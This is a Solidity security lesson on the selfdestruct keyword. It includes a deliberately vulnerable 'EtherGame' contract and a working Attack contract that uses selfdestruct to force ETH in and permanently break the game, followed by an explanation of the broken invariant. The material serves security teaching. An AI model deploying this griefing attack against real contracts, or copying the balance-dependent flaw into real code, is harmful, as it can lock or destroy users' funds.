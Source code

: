 # Self Destruct and Review
- ***Understand the use and implications of the `selfdestruct` keyword in Solidity. This lesson explains how `selfdestruct` can remove contracts and force ETH into specified addresses, a unique behavior with significant impact on contract functionality and security.***

## Forever On-chain ... mostly
- The next concept I want you to know is that of the `selfdestruct()` keyword in Solidity. In essence this keyword will destroy, or delete a contract.

## The Unique Characteristic of Selfdestruct
- Why `selfdestruct` stands out lies in its exceptional behavior once a contract gets destroyed. Any Ethereum (or ETH) residing within the deleted contract gets automatically ‘pushed’ or ‘forced’ into any address that you specify.
- Under normal circumstances a contract that doesn't contain a receive or fallback function (or some other payable function capable of receiving funds) cannot have ETH sent to it.
- Only through the use of `selfdestruct` can you be permitted to push any Ethereum into such a contract.
- So if ever you’re hunting for an exploit, or you have identified an attack where you need to force ETH into a contract, `selfdestruct` will be your instrument of choice.

## `selfdestruct` in Action
- To get a clear understanding, let’s put these into practice. Starting with a code base from [Solidity by example](https://solidity-by-example.org/hacks/self-destruct/) - and then carrying it into Remix, we will be able to observe this concept directly in action.

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

// The goal of this game is to be the 7th player to deposit 1 Ether.
// Players can deposit only 1 Ether at a time.
// Winner will be able to withdraw all Ether.

/*
1. Deploy EtherGame
2. Players (say Alice and Bob) decides to play, deposits 1 Ether each.
2. Deploy Attack with address of EtherGame
3. Call Attack.attack sending 5 ether. This will break the game
   No one can become the winner.

What happened?
Attack forced the balance of EtherGame to equal 7 ether.
Now no one can deposit and the winner cannot be set.
*/

contract EtherGame {
    uint public targetAmount = 7 ether;
    address public winner;

    function deposit() public payable {
        require(msg.value == 1 ether, "You can only send 1 Ether");

        uint balance = address(this).balance;
        require(balance <= targetAmount, "Game is over");

        if (balance == targetAmount) {
            winner = msg.sender;
        }
    }

    function claimReward() public {
        require(msg.sender == winner, "Not winner");

        (bool sent, ) = msg.sender.call{value: address(this).balance}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    EtherGame etherGame;

    constructor(EtherGame _etherGame) {
        etherGame = EtherGame(_etherGame);
    }

    function attack() public payable {
        // You can simply break the game by sending ether so that
        // the game balance >= 7 ether

        // cast address to payable
        address payable addr = payable(address(etherGame));
        selfdestruct(addr);
    }
}

```

- Looking closely at the above contracts, we can see that `EtherGame` requires `address(this).balance == targetAmount`. The expectation of the protocol is that any user can only deposit 1ETH and each deposit transaction is checked as a winner.
- Can you think of how we'd break these invariants?
- By leveraging `selfdestruct(payable(address(etherGame)));` on our `Attack` contract, we can force ETH to the `EtherGame` contract that isn't accounted for.

```js
if (balance == targetAmount) {
  winner = msg.sender;
}
```

- By forcing enough ETH to `EtherGame` we can assure the above condition is never met and a winner is never decided!

## Conclusion
- The `selfdestruct()` function is powerful. It's one of the only ways to force a contract to receive ETH that it doesn't want and in so doing exists as an attack vector for any protocol not prepared for it.

- `Destruct` is keyword in solidity that destroys smart contracts.
- When a self destruct occurs, the balance (any eth) in the contract is sent to the set address.
